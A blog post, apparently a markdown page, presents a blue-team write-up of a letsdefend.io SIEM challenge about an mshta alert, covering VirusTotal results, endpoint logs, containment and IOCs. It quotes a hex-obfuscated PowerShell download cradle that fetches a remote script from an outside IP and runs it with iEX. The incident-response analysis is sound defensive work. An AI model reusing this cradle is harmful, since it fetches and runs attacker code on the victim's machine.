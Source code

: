 ```yaml
---
layout: post
published: false
title: write up - suspicious mshta behavior
author: admin
comments: true
date: '2022-04-15 23:00'
categories:
  - DFIR
---
```


I've been trying out [letsdefend.io](https://letsdefend.io/) for a couple of week, and here's a write up of one of the challenge. its a platform to hone your blue teaming skill, you play in a SIEM like apps and you act as an analyst, finding IOC and deciding escalation etc. so here goes.
<!--more-->

![mshta behaviour](/images/wup_ld.png)

this is what the case looked like, basically a host execute a hta thus an alert is triggered. Our job is to see what really happened and do the intended playbook exercise. Some things that we can check to help with analysis are the hash (virustotal) and the IP address (we'll try command history & proccess history we found at the endpoint security tab). Afterward we are gonna decide on containment (eradication and recovery) and last the lesson learned from said incident.

#### virustotal

virustotal result are bad, 23/58 malicious flag. if we are interested we could try to find the file and do more analysis, but for now I think we can move to endpoint security tabs and do more analysis there.

[virustotal](https://www.virustotal.com/gui/file/886095c7861a068d1ee603c71cb161f256941e802e743fe2161f30013947a2f1/detection)


#### endpoint security

![wup_endpoint](/images/wup_endpoint.png)

We use end point security to find out what is really happening in the host 172.16.17.38. From the screenshot we can see that the first command line that trigger the alert, followed by weird command.

The first command is what triggered the alert. Mshta is a trusted Microsoft binary that in this case is abused to proxy for execution of the PS1.hta file. 
you can see the related explanation here at the [MITRE](https://attack.mitre.org/techniques/T1218/005/)

Tried a bit of magic at the second command below, where we can see a more bearable presentation. 
$H3-H6 with the help of $H1 just basically hex that reads "Downloadstring". $H2 was a glorified "New-Object Net.WebClient". and $H8 puts them all together to form an old fashion download using powershell from address mentioned in $H8 (http://193.142.58.23/Server.txt).

```bash
function H1($i) 
{$r = '' ; for ($n = 0; $n -Lt $i.LengtH; $n += 2)
{$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
$H2 = (new-object ('{1}{0}{2}' -f'WebCL','net.','ient'));
$H3 = H1 '446f776E';
$H4 = H1 '6C6f';
$H5 = H1 '616473747269';
$H6 = H1 '6E67';
$H7 = $H3+$H4+$H5+$H6;
$H8 = $H2.$H7('http://193.142.58.23/Server.txt');
iEX $H8
```

#### log management

After seeing what the script do, we best check log management and try to see did the server reply with anything.

![wup_endpoint](/images/wup_logmgmt.png)

apparently the server replied with 404, so no response arrived for the host (172.16.17.38) because the server (or the inteded file) is dead/ not there.

#### containment and lesson learned

Since it's definetly a malicious script (but stopped due to the C2 server is dead), it's best to contain the host. We can do this by going to endpoint security and click the request containment. 

The IP address, and URL and also the md5 hash of the executed file can then be use as IOC when we did the playbook and also close the case.



